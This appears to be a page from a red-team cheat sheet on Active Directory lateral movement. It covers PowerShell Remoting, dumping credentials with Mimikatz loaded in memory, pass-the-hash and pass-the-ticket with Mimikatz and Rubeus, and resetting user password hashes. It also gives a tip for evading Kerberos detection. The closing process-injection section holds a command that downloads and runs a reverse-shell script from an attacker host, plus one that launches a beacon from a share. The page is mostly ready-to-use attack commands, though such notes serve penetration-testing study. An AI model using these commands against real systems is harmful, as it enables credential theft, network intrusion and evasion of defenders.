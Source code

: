 ```yaml
---
title: Lateral Movement
category: Active Directory
order: 3
---
```


# PowerShell Remoting

Once a machine is compromised, we need to jump to others in order to find more valuable targets. For that task we can use `PowerShell Remoting` which is increasingly used in enterprises and enabled by default on Server 2012 onwards. PowerShell Remoting uses WinRM protocol, so you can check `evil-winrm` tool. Admin privileges on the target machineis needed.

> **Note**: Maybe you need to enable remoting `Enable-PSRemoting` on a Desktop windows machine and Admin privs are required.

You can get a elevated shell (`NT AUTHORITY\SYSTEM`) on the remote server if the credentials of the user administrator are used to authenticate (default setting).

## Using Credentials

We can use other credentials:
```
$user='WORKGROUP\User'; 
$pass='passwd';
$cred = (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force))
```
And use it with the parameter `-Credential`

> **Note**: If password is not declared a prompt will be shown in order to enter manually.

## Creating a Session

There are two types of PowerShell Remoting:

* **One-to-One**: It is interactively login to another machine. Create a new session on the target machine so runs in a new process (wsmprovhost). 

```powershell
Enter-PSSession -ComputerName machine01.corp.local
Enter-PSSession -ComputerName machine01.corp.local -Credential $cred
Enter-PSSession -ComputerName machine01.corp.local -Credential corp\user
```
We can also first create the session and append to it later.

```powershell
$sess = New-PSSession -ComputerName machine01.corp.local
Enter-PSSession -Session $sess
```
> **Note**: We can put a session in background if the session is stored in a variable. Very useful.


* **One-to-Many**: It is also known as Fan-out remoting. It is a non-interactive shell but we can execute commands parallely. Is useful to run commmands and scripts on multiple remote computers, in disconnected sessions and as a background job.

```powershell
Invoke-Command -ComputerName machine01.corp.local -ScriptBlock {whoami;hostname}
Invoke-Command -ComputerName (Get-Content .\servers.txt)
Invoke-Command -ComputerName machine01.corp.local -FilePath .\file.ps1
```
> **Note**: One of the best things in PowerShell to do PassTheHash, using credentials and executing commands on multiple remote computers.

> **RedTeam Note**: Since admin privs are needed is a useful tool to check if the user has admin privs on the target machine.

## Execute locally loaded funcitons on the remote machine

We can execute locally loaded function on the remote machine.

```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content .\servers.txt)
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ArgumentList "-List hello" -ComputerName (Get-Content .\servers.txt)
```
## Load a script remotely

we can load a script remotely.

```powershell
Invoke-Command -FilePath .\hello.ps1 -Session $sess
Enter-PSSession -Session $sess

[machine01.corp.local]: PS C:\> hello
Hello World!
```
## Execute "Stateful" commands

We can execute "Stateful" commands.

```powershell
$sess = New-PSSession -ComputerName server1
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```
## Transfering files

We can also transfer files with PSRemoting and `Copy-Item`
```
$sess = New-PSSession -ComputerName server1
Copy-Item C:\Windows\remote_file.txt C:\Windows\local_file.txt -FromSession $sess
Copy-Item C:\Windows\local_file.txt C:\Windows\remote_file.txt -ToSession $sess
```

# Dump credentials

Once we have administrator privileges on the target machine we can dump credentials with `Invoke-Mimikatz`. See this section:

[https://mvc1009.github.io/hackingnotes/post-exploitation/get-credentials/](/hackingnotes/post-exploitation/get-credentials/).

To avoid save mimikatz on disk we need to load remotely.

```powershell
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Invoke-Command -Session $sess -ScriptBlock {Invoke-Mimikatz -DumpCreds}
```
Or we can execute locally loaded functions.

```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Command -Session $sess -ScriptBlock {function:Invoke-Mimikatz -DumpCreds}
```

# Over-Pass-the-Hash / Pass-The-Key

Abusing kerberos functionality we can execute commands as another user by only knowing the NTLM hash.

* Invoke-Mimikatz

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:<ntlmhash> /run:powershell.exe"'
```

> **RedTeam Note**: There is a different in encryption type for timestamp between a normal `krb-as-req` and one using the Over-Pass-the-hash `krb-as-req`
> * Over-Pass-the-hash krb-as-req etype flag: `eTYPE-ARCFOUR-HMAC-MD5 (23)`
> * Normal krb-as-req etype flag: `eTYPE-AES256-CTS-HMAC-SHA1-96 (18)`
>
> To reduce the cahnces of detection use `aes256`, `aes128` and `NTLM(RC4)` together.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:corp.local /aes256:<aes256> /aes128:<aes128> /ntlm:<ntlmhash> /run:powershell.exe"'
```

* Rubeus

```
.\Rubeus.exe asktgt /domain:dollarcorp.moneycorp.local /user:srvadmin /rc4:a98e18228819e8eec3dfa33cb68b0728 /ptt
```

# Pass-The-Ticket

We can use the tickets that are save to a `.kirbi` file. 

* Invoke-Mimikatz

```
Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'
```

* Rubeus

```powershell
.\Rubeus.exe ptt /ticket:ticket.kirbi
.\Rubeus.exe ptt /ticket:<base64ticket>
```

# Manipulating User Passwords with Mimikatz 

Mimikatz supports the ability to manipulate user password, so we can change the password to a new one and restore it later.

```powershell
Invoke-Mimikatz -Command '"lsadump::changentlm /server:dc01 /user:jeff /old:<NTLM> /newpassword:<NTLM2>"'
```

```powershell
Invoke-Mimikatz -Command '"lsadump::setntlm /server:dc01 /user:jeff /ntlm:<NTLM>"'
```

* [https://stealthbits.com/blog/manipulating-user-passwords-with-mimikatz/](https://stealthbits.com/blog/manipulating-user-passwords-with-mimikatz/)

# Process Injection

We can also inject our shellcode or our binary to a process running by a user. Notice that **elevated privileges are needed**.

* [https://github.com/S3cur3Th1sSh1t/SharpImpersonation](https://github.com/S3cur3Th1sSh1t/SharpImpersonation)

Get a list of running processes:
```
.\SharpImpersonation.exe list elevated
```

Inject on a process which is run by a specific user:
```
.\SharpImpersonation.exe user:CORP\jwick binary:"powershell.exe"
.\SharpImpersonation.exe user:CORP\jwick binary:"powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://ipkali/rev.ps1')"
.\SharpImpersonation.exe user:CORP\jwick binary:"\\evil.corp.local\share\beacon.exe"
```
